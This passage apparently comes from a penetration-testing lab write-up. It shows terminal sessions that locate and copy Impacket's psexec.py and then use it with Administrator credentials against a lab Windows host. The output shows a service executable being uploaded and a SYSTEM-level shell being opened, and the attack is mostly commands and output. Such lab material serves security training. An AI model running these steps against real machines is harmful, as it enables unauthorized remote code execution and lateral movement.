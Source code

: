 ![RDP-10.0.31.177-vagrant.png](/img/in-post/ine/RDP-10.0.31.177-vagrant.png)

```
root@attackdefense:~# locate psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/koadic/modules/implant/pivot/exec_psexec.py
/usr/share/powershell-empire/empire/server/modules/powershell/lateral_movement/invoke_psexec.py
/usr/share/set/src/fasttrack/psexec.py
root@attackdefense:~# cd Desktop/
root@attackdefense:~/Desktop# cp /usr/share/doc/python3-impacket/examples/psexec.py .
root@attackdefense:~/Desktop# chmod +x psexec.py
```

```
root@attackdefense:~/Desktop# python3 psexec.py Administrator@10.0.31.177
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.31.177.....
[*] Found writable share ADMIN$
[*] Uploading file eoVXvNwi.exe
[*] Opening SVCManager on 10.0.31.177.....
[*] Creating service acma on 10.0.31.177.....
[*] Starting service acma.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```